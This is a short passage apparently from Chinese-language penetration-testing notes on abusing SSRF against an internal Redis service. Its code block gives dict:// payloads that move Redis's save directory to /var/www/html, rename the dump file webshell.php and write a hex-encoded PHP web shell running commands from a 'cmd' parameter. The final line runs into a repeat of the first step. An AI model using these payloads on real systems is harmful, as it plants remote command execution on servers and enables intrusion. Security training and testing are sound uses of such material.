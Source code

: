 ```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```

![img](daydayup.assets/1689447203355-71caa4c3-6179-4e48-a9e3-18b68673f4c8.png)

### SSRF打FastCGI
